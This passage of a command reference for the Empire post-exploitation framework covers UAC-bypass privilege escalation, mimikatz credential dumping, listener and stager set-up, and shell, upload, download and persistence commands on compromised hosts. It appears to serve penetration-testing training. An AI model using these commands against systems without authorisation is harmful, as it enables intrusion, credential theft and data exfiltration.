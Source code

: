 #### **18. Privilege Escalation Modules**
- **Description:** Use modules to escalate privileges on the compromised host.
- **Command:**
  ```bash
  (Empire) > usemodule privesc/bypassuac
  ```
- **Explanation:**
  - `usemodule` followed by a privilege escalation module name is used to attempt privilege escalation.

#### **19. Kill an Agent**
- **Description:** Terminate a specific agent session.
- **Command:**
  ```bash
  (Empire) > kill AGENT_NAME
  ```
- **Explanation:**
  - `kill` terminates the specified agent session.

#### **20. Exit Empire**
- **Description:** Safely exit the Empire console.
- **Command:**
  ```bash
  (Empire) > exit
  ```
- **Explanation:**
  - `exit` safely shuts down the Empire server and exits the console.

---

### **Summary of Empire Commands**

| **Command**                                             | **Description**                                                  |
|---------------------------------------------------------|------------------------------------------------------------------|
| `./empire`                                              | Start the Empire server                                          |
| `(Empire) > usemodule`                                  | List available modules                                           |
| `(Empire) > searchmodule mimikatz`                      | Search for a specific module by keyword                          |
| `(Empire) > usemodule credentials/mimikatz`             | Use a specific module                                            |
| `(Empire: module_name) > set Listener http`             | Set module options                                               |
| `(Empire: module_name) > execute`                       | Execute the configured module                                    |
| `(Empire) > uselistener http`                           | Create a listener                                                |
| `(Empire: listeners/http) > set Host http://192.168.1.10:8080` | Configure listener options                                      |
| `(Empire: listeners/http) > execute`                    | Start the listener                                               |
| `(Empire) > usestager windows/launcher_bat`             | Generate a stager                                                |
| `(Empire: stager/windows/launcher_bat) > set Listener http` | Configure stager options                                       |
| `(Empire: stager/windows/launcher_bat) > generate`      | Generate the stager code                                         |
| `(Empire) > agents`                                     | List and interact with active agents                             |
| `(Empire) > interact AGENT_NAME`                        | Interact with an agent                                           |
| `(Empire: agents/AGENT_NAME) > shell whoami`            | Run commands on the compromised host                             |
| `(Empire: agents/AGENT_NAME) > upload /local/file /remote/file` | Upload files to the compromised host                        |
| `(Empire: agents/AGENT_NAME) > download /remote/file /local/file` | Download files from the compromised host                  |
| `(Empire) > usemodule persistence/elevated/schtasks`    | Use persistence modules                                          |